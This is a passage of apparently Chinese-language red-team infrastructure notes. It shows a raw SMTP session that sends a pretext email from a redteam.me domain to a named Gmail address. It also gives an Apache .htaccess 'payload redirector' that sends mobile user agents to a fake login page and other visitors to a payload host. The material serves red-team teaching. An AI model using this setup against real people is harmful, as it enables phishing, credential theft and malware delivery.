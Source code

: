 		  telnet redteam.me 25
		  helo redteam.me
		  mail from: olasenor@redteam.me
		  rcpt to: mantvydo@gmail.com
		  data
		  to: Mantvydas Baranauskas <mantvydo@gmail.com>
		  from: Ola Senor <olasenor@redteam.me>
		  subject: daily report
		  
		  Hey Mantvydas,
		  As you were requesting last week - attaching as promised the documents needed to keep the project going forward.
		  .
		```
		- <img src="/assets/Pasted image 20221104150805.png">
- # 9. Payload Redirector
	- Payload Redirector服务器建立在 apache2 mod_rewrite 和proxy模块上。 mod_rewrite 模块允许我们编写细粒度的 URL 重写规则，并将受害者的 HTTP 请求代理到合适位置。
	- 下面是一个 .htaccess 文件，说明何时、何地以及如何（即代理或重定向）重写传入的 HTTP 请求：
		```
		  RewriteEngine On
		  RewriteCond %{HTTP_USER_AGENT} "android|blackberry|googlebot-mobile|iemobile|ipad|iphone|ipod|opera mobile|palmos|webos" [NC]
		  RewriteRule ^.*$ http://payloadURLForMobiles/login [P]
		  RewriteRule ^.*$ http://payloadURLForOtherClients/%{REQUEST_URI} [P]
		```
	- 下面的截图应该说明了上述概念：
	- **绿色部分** - 我们使用了 curl（及其默认 UA），根据 .htaccess 文件，它应该将我们重定向到 payloadURLForOtherClients - 但因为它是一个测试主机且不可解析，所以失败了。
	- **粉红色部分** - 这次使用伪造的 UA，将 http 请求伪装成来自 iphone 的请求 - 我们可以看到 apache 正确地尝试将请求代理到 payloadURLForMobiles 主机。